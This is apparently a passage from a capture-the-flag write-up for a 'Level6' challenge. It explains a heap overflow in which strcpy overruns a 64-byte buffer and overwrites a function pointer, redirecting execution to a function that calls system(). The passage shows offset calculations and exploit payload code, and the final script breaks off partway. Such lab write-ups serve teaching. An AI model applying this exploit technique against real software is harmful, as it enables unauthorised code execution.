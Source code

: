 #### Memory Corruption Process
1. **Normal strcpy()**: Copies argv[1] into 64-byte buffer1
2. **Overflow condition**: Input longer than 64 bytes continues writing
3. **Metadata corruption**: Overwrites heap chunk metadata (8 bytes)
4. **Function pointer overwrite**: Corrupts funcptr with attacker-controlled value
5. **Execution hijack**: `(*funcptr)()` calls attacker-specified function

## Exploitation Strategy

### Address Analysis
- **Function m() address**: `0x08048468` (default execution path)
- **Function n() address**: `0x08048454` (target containing system() call)
- **Offset calculation**: 64 (buffer) + 8 (heap metadata) = 72 bytes total

### Payload Construction Strategy
```python
# Heap overflow payload structure:
# [64 bytes buffer overflow] + [8 bytes heap metadata] + [4 bytes function pointer]

offset = 72                                    # Bytes to reach function pointer
padding = "A" * offset                         # Fill buffer + metadata
target_address = struct.pack("<L", 0x08048454) # n() function address (little-endian)
payload = padding + target_address             # Complete exploit payload
```

### Execution Flow Hijacking
```
Normal Execution Flow:
main() → malloc() → malloc() → *funcptr = m → strcpy() → (*funcptr)() → m() → puts("Nope")

Exploited Execution Flow:  
main() → malloc() → malloc() → *funcptr = m → strcpy() → [overflow] → (*funcptr)() → n() → system()
                                                              │                      │         │
                                                              └─ overwrites funcptr  │         └─ flag!
                                                                     with n() addr ──┘
```

## Working Exploit Implementation

### Final exploit.py
```python
#!/usr/bin/env python2

import struct

# Level6 - Heap Buffer Overflow Exploit
# Overwrite function pointer to redirect execution from m() to n()

# Target function addresses from disassembly
n_function = 0x08048454      # Function n() - calls system() (our goal)
m_function = 0x08048468      # Function m() - prints "Nope" (default)

# Heap layout calculation:
# buffer1 = malloc(64)     <- strcpy destination  
# [heap metadata ~8 bytes] <- malloc chunk headers
# funcptr = malloc(4)      <- function pointer storage (overwrite target)
#
# Total offset = 64 (buffer) + 8 (metadata) = 72 bytes

offset = 72
padding = "A" * offset                           # Overflow padding
```
